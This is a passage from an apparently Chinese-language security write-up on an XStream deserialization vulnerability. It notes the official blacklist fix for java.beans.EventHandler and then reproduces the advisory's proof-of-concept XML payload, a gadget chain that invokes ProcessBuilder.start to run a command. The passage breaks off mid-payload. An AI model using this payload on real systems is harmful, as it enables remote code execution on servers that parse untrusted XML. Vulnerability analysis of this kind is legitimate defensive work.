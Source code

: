 ![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb7Fmh2adUW4f2jMldibCAfYiaA0PMo0lNsc96X5ic5W0RaDvbOzbzHlibn7CsHAHYWLjmMtuPib4Mw4icFQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb7Fmh2adUW4f2jMldibCAfYiadiaGUTVYQAMTcbD3lLYZGOib4XRVLBgLrbQDR4I7M9Yc3qicyzB115eBw/640?wx_fmt=png)

因此 XStream 官方的修复方式为, 实现了一个类为 InternalBlackList(黑名单转换器), 当属性值为 java.beans.EventHandler 时，抛出异常，因此基于该类型的 poc 均失效

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb7Fmh2adUW4f2jMldibCAfYiaMyXdhMHEqQ6Oh6NWYfuiac0cVGhNvXicWJB5k5hcUtO7fRuCErh645qA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ldFaBNSkvHhfReibVrfKgxN97qcFx3LVvyyjt1GfHLaqE7wPAcicNCKgOmHHy9U3mdC6sqcXpSZMtt7NQOLxzJxA/640?wx_fmt=png)

漏洞复现

以下为官方公告中给出的 POC

```
<map>
    <entry>
        <jdk.nashorn.internal.objects.NativeString>
            <flags>0</flags>
            <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>
                <dataHandler>
                    <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>
                        <contentType>text/plain</contentType>
                        <is class='java.io.SequenceInputStream'>
                            <e class='javax.swing.MultiUIDefaults$MultiUIDefaultsEnumerator'>
                                <iterator class='javax.imageio.spi.FilterIterator'>
                                    <iter class='java.util.ArrayList$Itr'>
                                        <cursor>0</cursor>
                                        <lastRet>-1</lastRet>
                                        <expectedModCount>1</expectedModCount>
                                        <outer-class>
                                            <java.lang.ProcessBuilder>
                                                <command>
                                                    <string>open</string>
                                                    <string>./</string>
                                                </command>
                                            </java.lang.ProcessBuilder>
                                        </outer-class>
                                    </iter>
                                    <filter class='javax.imageio.ImageIO$ContainsFilter'>
                                        <method>
                                            <class>java.lang.ProcessBuilder</class>
                                            <name>start</name>
                                            <parameter-types/>
                                        </method>
                                        <name>start</name>
                                    </filter>
                                    <next/>
                                </iterator>
                                <type>KEYS</type>
                            </e>
                            <in class='java.io.ByteArrayInputStream'>
                                <buf></buf>
                                <pos>0</pos>
                                <mark>0</mark>
                                <count>0</count>
                            </in>
                        </is>
                        <consumed>false</consumed>
                    </dataSource>
                    <transferFlavors/>
                </dataHandler>
```